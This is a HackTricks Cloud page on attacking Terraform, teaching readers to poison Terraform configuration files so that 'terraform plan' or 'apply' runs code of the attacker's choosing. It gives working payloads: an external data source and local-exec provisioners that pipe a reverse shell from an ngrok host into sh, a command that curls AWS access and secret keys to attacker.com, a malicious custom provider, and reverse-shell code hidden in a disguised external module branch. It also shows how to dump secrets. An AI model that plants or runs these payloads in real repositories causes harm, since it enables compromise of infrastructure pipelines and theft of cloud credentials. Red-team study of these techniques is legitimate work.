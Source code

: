 # Terraform Security

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

[From the docs: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform is an **infrastructure as code tool** that lets you define both **cloud and on-prem resources** in human-readable configuration files that you can version, reuse, and share. You can then use a consistent workflow to provision and manage all of your infrastructure throughout its lifecycle. Terraform can manage low-level components like compute, storage, and networking resources, as well as high-level components like DNS entries and SaaS features.

### How does Terraform work?

Terraform creates and manages resources on cloud platforms and other services through their application programming interfaces (APIs). Providers enable Terraform to work with virtually any platform or service with an accessible API.

![](<../.gitbook/assets/image (33).png>)

HashiCorp and the Terraform community have already written **more than 1700 providers** to manage thousands of different types of resources and services, and this number continues to grow. You can find all publicly available providers on the [Terraform Registry](https://registry.terraform.io/), including Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, and many more.

The core Terraform workflow consists of three stages:

* **Write:** You define resources, which may be across multiple cloud providers and services. For example, you might create a configuration to deploy an application on virtual machines in a Virtual Private Cloud (VPC) network with security groups and a load balancer.
* **Plan:** Terraform creates an execution plan describing the infrastructure it will create, update, or destroy based on the existing infrastructure and your configuration.
* **Apply:** On approval, Terraform performs the proposed operations in the correct order, respecting any resource dependencies. For example, if you update the properties of a VPC and change the number of virtual machines in that VPC, Terraform will recreate the VPC before scaling the virtual machines.

![](<../.gitbook/assets/image (81).png>)

## Terraform Lab

Just install terraform in your computer.

Here you have a [guide](https://learn.hashicorp.com/tutorials/terraform/install-cli) and here you have the [best way to download terraform](https://www.terraform.io/downloads).

## RCE in Terraform

Terraform **doesn't have a platform exposing a web page or a network service** we can enumerate, therefore, the only way to compromise terraform is to **be able to add/modify terraform configuration files**.

However, terraform is a **very sensitive component** to compromise because it will have **privileged access** to different locations so it can work properly.

The main way for an attacker to be able to compromise the system where terraform is running is to **compromise the repository that stores terraform configurations**, because at some point they are going to be **interpreted**.

Actually, there are solutions out there that **execute terraform plan/apply automatically after a PR** is created, such as **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

If you are able to compromise a terraform file there are different ways you can perform RCE when someone executed `terraform plan` or `terraform apply`.

### Terraform plan

Terraform plan is the **most used command** in terraform and developers/solutions using terraform call it all the time, so the **easiest way to get RCE** is to make sure you poison a terraform config file that will execute arbitrary commands in a `terraform plan`.

#### Using an external provider

Terraform offers the [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) which provides a way to interface between Terraform and external programs. You can use the `external` data source to run arbitrary code during a `plan`.

Injecting in a terraform config file something like the following will execute a rev shell when executing `terraform plan`:

```javascript
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

#### Using a custom provider

An attacker could send a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup) to the [Terraform Registry](https://registry.terraform.io/) and then add it to the Terraform code in a feature branch ([example from here](https://alex.kaskaso.li/post/terraform-plan-rce)):

```javascript
 terraform {
        required_providers {
            evil = {
                source  = "evil/evil"
                    version = "1.0"
            }
        }
    }

provider "evil" {}
```

The provider is downloaded in the `init` and will run the malicious code when `plan` is executed

You can find an example in [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Using an external reference

Both mentioned options are useful but not very stealthy (the second is more stealthy but more complex than the first one). You can perform this attack even in a **stealthier way**, by following this suggestions:

* Instead of adding the rev shell directly into the terraform file, you can **load an external resource** that contains the rev shell:

```javascript
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

You can find the rev shell code in [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* In the external resource, use the **ref** feature to hide the **terraform rev shell code in a branch** inside of the repo, something like: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply will be executed to apply all the changes, you can also abuse it to obtain RCE injecting **a malicious Terraform file with** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
You just need to make sure some payload like the following ones ends in the `main.tf` file:

```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
  provisioner "local-exec" {
    command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
  provisioner "local-exec" {
    command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
  }
}
```

Follow the **suggestions from the previous technique** the perform this attack in a **stealthier way using external references**.

## Secrets Dumps

You can have **secret values used by terraform dumped** running `terraform apply` by adding to the terraform file something like:

```json
output "dotoken" {
  value = nonsensitive(var.do_token)
}
```

## Audit Tools

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec uses static analysis of your terraform code to spot potential misconfigurations.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan is a static code analyzer for Infrastructure as Code.

## References

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
